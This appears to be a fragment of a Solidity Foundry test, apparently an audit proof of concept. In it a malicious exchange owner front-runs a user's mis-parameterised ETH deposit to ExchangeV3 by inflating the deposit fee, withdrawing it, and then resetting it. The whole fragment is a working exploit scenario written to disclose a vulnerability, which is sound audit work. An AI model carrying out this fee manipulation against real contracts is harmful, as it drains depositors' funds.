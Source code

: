 ```solidity
        deal(alice, depositAmount);
        uint256 bobBalanceBefore = bob.balance;   
        uint256 aliceBalanceBefore = alice.balance; 
        uint256 depositBalanceBefore = address(defaultDepositContract).balance;
        uint256 exchangeOwnerBalanceBefore = exchangeOwner.balance;
        console.log("Bob's ether balance is: %d wei", bobBalanceBefore);
        console.log("Alice's ether balance is: %d wei", aliceBalanceBefore);
        console.log("Default deposit ether balance is: %d wei", depositBalanceBefore);
        console.log("Ether balance of malicious exchange owner is: %d wei", exchangeOwnerBalanceBefore);

        // Malicious owner spots sandwich opportunity, either through malicious front-end or by simply watching mempool for user error
        console.log("------Bob tries to deposit Ether to ExchangeV3 but mistakenly has 'amount' parameter lower than msg.value sent------");
        console.log("------Malicious owner spots sandwich opportunity and front-runs Bob's deposit------");
        vm.startPrank(exchangeOwner);
        uint248 maliciousAmount = 1 wei;        // Malicious front-end or user error
        uint256 freeDepositMax = 0;
        uint256 freeDepositRemained = 0;
        uint256 freeSlotPerBlock = 0;
        uint256 depositFee = depositAmount - maliciousAmount;
        exchange.setDepositParams(freeDepositMax, freeDepositRemained, freeSlotPerBlock, depositFee);
        console.log("Deposit fee temporarily set to difference between Bob's msg.value and 'amount' (%d wei)", depositFee);
        vm.stopPrank();

        // Bob deposits to ExchangeV3, unaware that he is being front-run
        vm.startPrank(bob);
        exchange.deposit{value: depositAmount}(bob, bob, ethDepositAddress, maliciousAmount, "");
        vm.stopPrank();
        vm.prank(exchangeOwner);
        exchange.withdrawExchangeFees(address(0), exchangeOwner);
        assertEq(bob.balance, 0);
        assertEq(address(defaultDepositContract).balance, depositBalanceBefore + maliciousAmount);
        console.log("Exchange owner collects temporarily inflated fee and withdraws it");
        console.log("Exchange owner's ether balance is now: %d wei", exchangeOwner.balance);
        assertEq(exchangeOwner.balance, depositFee);
        console.log("Bob's ether balance is now: %d wei with a deposit value of: %d wei", bob.balance, exchange.getPendingDepositAmount(bob, ethDepositAddress));
        assertEq(exchange.getPendingDepositAmount(bob, ethDepositAddress), maliciousAmount);

        // Malicious owner completes sandwich attack on Bob
        console.log("Setting deposit fee back to 0 wei, completing sandwich attack on Bob");
        depositFee = 0;
        vm.prank(exchangeOwner);
        exchange.setDepositParams(freeDepositMax, freeDepositRemained, freeSlotPerBlock, depositFee);

        console.log("------Alice deposits same Ether amount as Bob, but correctly sets 'amount' parameter and msg.value equal------");
        console.log("------Malicious owner has no sandwich opportunity and lets Alice deposit as normal------");
        vm.startPrank(alice);
        exchange.deposit{value: depositAmount}(alice, alice, ethDepositAddress, depositAmount, "");
        vm.stopPrank();
        assertEq(alice.balance, 0);
        assertEq(address(defaultDepositContract).balance, depositBalanceBefore + maliciousAmount + depositAmount);
        assertEq(exchange.getPendingDepositAmount(alice, ethDepositAddress), depositAmount);
```